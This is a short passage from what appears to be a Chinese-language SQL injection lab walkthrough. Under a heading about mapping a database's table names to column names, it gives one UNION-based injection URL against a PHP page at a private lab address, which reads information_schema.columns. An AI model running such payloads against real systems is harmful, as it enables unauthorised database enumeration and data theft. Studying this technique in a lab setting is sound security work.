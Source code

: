 ![](images/获得所有的列名.PNG)

* 获取当前数据库中表名和列名的对应关系
```
192.168.56.4/cat.php?id=1 union select 1,concat(table_name,':',column_name),3,4 from information_schema.columns 
```
